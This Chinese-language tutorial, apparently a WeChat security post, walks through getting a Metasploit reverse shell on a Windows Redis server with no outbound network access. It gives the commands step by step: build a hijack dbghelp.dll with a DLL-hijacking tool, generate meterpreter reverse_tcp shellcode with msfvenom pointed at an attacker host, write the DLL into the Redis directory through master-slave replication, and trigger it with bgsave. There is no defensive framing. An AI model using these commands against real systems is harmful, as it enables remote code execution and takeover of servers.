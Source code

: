 **不出网——Metasploit-反向shell**  
  
1、使用dllHijack工具（https://github.com/P4r4d1se/dll_hijack），执行后生成dbghelp.dll项目  
```
python DllHijacker.py dbghelp.dll

```  
  
2、msf生成payload，让meterpreter的流量指向Linux出网主机的6666端口：msfvenom -p windows/x64/meterpreter/reverse_tcp  LHOST=IP LPORT=6666 -f c -o shellcode  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5JHkCKzLSl0WOjHDTuYsbaYoODeOsnVnZ91ibNKNQCmFgEWhrT7ibmZibxOEf3N53nODt8ZTFiaSj0hA/640?wx_fmt=png&from=appmsg "")  
  
将kali中生成的shellcode替换到dbghelp.dll项目，并使用主从复制将修改后的dll写入到目标指定位置 (利用工具：RedisWriteFile工具)，目标靶机中将会写入恶意的dll文件  
```
python RedisWriteFile.py --rhost=IP --rport=6379 --lhost=IP --rpath="C:\\Users\\superman\\Desktop\\Redis-x64-3.0.504\\" --rfile="dbghelp.dll" --lfile="dbghelp.dll"

```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5JHkCKzLSl0WOjHDTuYsbaHTI7M6dBn7XgfupFaVsr2icl1ZGaVVf0ZcTiahz1fUrfjX5DgicNxQpbg/640?wx_fmt=png&from=appmsg "")  
  
在redis客户端连接执行bgsave，尝试触发劫持dll，msf监听，收到shell  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/ibZ6uZjjH3v5JHkCKzLSl0WOjHDTuYsbarBvndiacF8xmibtdzTiaGyKcwGx6XUlqqXgqrf6WJOoNickbLibvumu43sw/640?wx_fmt=png&from=appmsg "")  
  
  
加下方wx，拉你一起进群学习  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/ibZ6uZjjH3v5KP8CaWoS7GAJnWQQxPpibNdibOdl0hc3X6uuBy7rLVOoxS0OSd4vdHWcibFpZg9T9Bx6T7Rn87RoIw/640?wx_fmt=other&wxfrom=5&wx_lazy=1&wx_co=1&tp=webp "")  
  
